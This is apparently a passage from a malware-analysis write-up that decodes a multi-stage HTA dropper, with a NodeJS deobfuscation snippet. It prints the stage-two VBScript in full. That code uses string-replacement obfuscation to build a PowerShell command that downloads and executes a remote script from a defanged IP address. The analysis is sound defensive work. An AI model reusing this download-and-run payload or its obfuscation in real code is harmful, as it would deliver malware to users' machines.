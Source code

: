 ```html
<script language=javascript>document.write(unescape('%3Cscript%20language%3D%22VBScript%22%3E%0AFunction%20...self.close%0A%3C/script%3E'))</script>
```

Thankfully we can use a little bit of NodeJS to deobfuscate the code ourselves! Using the little bit of code below, we can write the deobfuscated HTA content into `stage02.hta`. If you want to see this approach used more, consider making a stop by [this post](https://forensicitguy.github.io/decoding-webshell-using-nodejs/) where I decode a web shell using the same method.

```js
fs = require('fs')

page = unescape('%3Cscript%20language%3D%22VBScript%22%3E%0AFunction%20...self.close%0A%3C/script%3E')

fs.writeFileSync('stage02.hta',page)
```

## Decoding PowerShell From Stage 02

Now let's dive into `stage02.hta`! The HTA contains VBScript code within the HTA script tags. There's quite a bit of string obfuscation going on here as well. First, we can tell from looking at the `HB` variable we're likely looking into a PowerShell command, and the URL in `HBB` already shows that the sample downloads additional content. The easy hypothesis here is that PowerShell will likely download content from this URL and execute it. To confirm/disprove the hypothesis we need to remove the string obfuscation. Part of the deobfuscation is really easy using find/replace functionality in a code editor of your choice. The last bit of obfuscation requires a bit more work with your eyes. The `{2}{0}{1} -f` chunks of PowerShell code correspond with [PowerShell Format strings](https://devblogs.microsoft.com/scripting/understanding-powershell-and-basic-string-formatting/). This feature lets the developer have variable "holding spots" in the middle of a string and specify the contents of the variable after the rest of the string is defined. To deobfuscate this part, just treat the strings after `-f` like an array, and join them together in the proper order.

```html
<script language="VBScript">
Function var_func()
HB = replace("pow(-_-)rsh(-_-)ll ","(-_-)","e")
HBB = "$@@@x = 'hxxp://135.148.74[.]241/PS1_B.txt';$@@@$$$=('{2}{0}{1}' -f'---------l---------888---------Nguyễn Văn Tí---------d---------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('---------',''),'**********+++**********t**********r**********i**********n**********g**********'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('**********',''),'++++++++++D++++++++++888++++++++++w++++++++++n++++++++++'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('++++++++++',''));$@@@$$$$$$=('{2}{0}{1}' -f'---------777---------$$$---------666---------l---------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('---------',''),'---------i---------777---------n---------t---------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('---------',''),'---------N777---------t---------Nguyễn Văn TủnW---------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('---------',''));$@@@$$$$$$$$$=('{2}{0}{1}' -f'------w-888------$$$------j------777------666------t  $------@@@------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('------',''),'------$$$$$$------)Nguyễn Văn Tủn$@@@------$$$(------$@@@------x)------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('------',''),'------I------`777------`X(------N777------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('------',''));$@@@$$$$$$$$$$$$$$$ = ($@@@$$$$$$$$$ -J888in '')|InV888k777-777xNguyễn Văn Tèor777++++++i888N"
HBB = replace(HBB,"777","e")
HBB = replace(HBB,"888","o")
HBB = replace(HBB,"666","c")
HBB = replace(HBB,"+++","s")
HBB = replace(HBB,"$$$","B")
HBB = replace(HBB,"@@@","H")
HBB = replace(HBB,"Nguyễn Văn Tèo","P")
HBB = replace(HBB,"Nguyễn Văn Tí","a")
HBB = replace(HBB,"Nguyễn Văn Tủn",".")
set HBBB = GetObject(replace("new:F935DC22-1CF(-_-)-11D(-_-)-ADB9-(-_-)(-_-)C(-_-)4FD58A(-_-)B","(-_-)","0"))
Execute("HBBB.Run HB+HBB, 0, True")
End Function
```